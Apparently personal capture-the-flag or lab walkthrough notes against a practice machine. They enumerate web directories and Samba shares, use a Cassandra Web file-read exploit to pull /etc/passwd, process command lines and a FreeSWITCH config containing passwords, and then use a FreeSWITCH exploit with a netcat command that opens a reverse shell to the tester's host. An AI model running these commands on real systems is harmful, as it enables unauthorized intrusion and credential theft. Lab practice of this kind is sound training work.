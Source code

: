 - Ran `gobuster dir -u http://192.168.114.240 -w //usr/share/dirb/wordlists/big.txt` to identify any available web directories - identified "backup" folder
![[Pasted image 20241017200202.png]]
- Ran `gobuster dir -u http://192.168.114.240/backup -w //usr/share/dirb/wordlists/big.txt -x php,html,txt` to identify files in `backup`
![[Pasted image 20241017202348.png]]
## Port 139 & 445 - Netbios SSN (Samba 4.9.5-Debian)
- Identified Samba 4.9.5: potentially vulnerable to CVE-2021-44142
- Identified smb service, and ran `smbclient -L //192.168.114.240 -U guest` to connect as `guest` without a password and list all available shares - identified share `guest`
![[Pasted image 20241017195423.png]]
- Ran `smbclient \\\\192.168.114.240\\backup` to connect to share `guest` as user `guest` and listed share contents with `ls`
![[Pasted image 20241017203531.png]]
## Port 3000 - HTTP (Thin httpd)
- Navigated to `http://192.168.114.240:3000` and identified `Cassandra version 3.11.13`
![[Pasted image 20241017194241.png]]
- Identified entry for `system_schema.keyspaces`
![[Pasted image 20241017202047.png]]
- Identified entry for `system.local`
![[Pasted image 20241017201839.png]]
- Identified entry for `system_schema.columns`
![[Pasted image 20241017202250.png]]
- Identified potential exploit [49362](https://www.exploit-db.com/exploits/49362) and attempted file-read access on target machine with `python3 49362.py -p 3000 192.168.114.240 /etc/passwd` - identified users `cassie` and `anthony`
![[Pasted image 20241017210233.png]]
- Ran exploit again with `python3 49362.py -p 3000 192.168.114.240 /proc/self/cmdline` to identify credentials `cassie:SecondBiteTheApple330`
![[Pasted image 20241017211001.png]]
- Ran exploit again with `python3 49362.py -p 3000 192.168.114.240 /etc/freeswitch/autoload_configs/event_socket.conf.xml` to identify `Freeswitch` password `StrongClueConEight021`
![[Pasted image 20241017212201.png]]
## Port 8021 - freeswitch
- Ran NMap and identified `freeswitch` service running on port `8021`
---
# Exploitation
- Identified `freeswitch` potentially vulnerable to exploit [47799](https://www.exploit-db.com/exploits/47799) , saved locally as `freeswitch-exploit.py`
	- Updated `freeswitch-exploit.py` to replace default password "ClueCon" with "StrongClueConEight021"
![[Pasted image 20241017212354.png]]
- Saved `freeswitch-exploit.py` and ran `python3 freeswitch-exploit.py 192.168.114.240 whoami`
![[Pasted image 20241017212609.png]]
- Started netcat listener on port `80`, then ran exploit again with `python3 freeswitch-exploit.py 192.168.114.240 'nc -c /bin/bash 192.168.45.154 80'` to establish reverse shell
![[Pasted image 20241017214317.png]]
- Ran `find / -name local.txt -type f 2>/dev/null` to identify `local.txt`, and ran `cat /var/lib/freeswitch/local.txt` to print `6e79f3911c9a13321d9d94e2e621b593`
---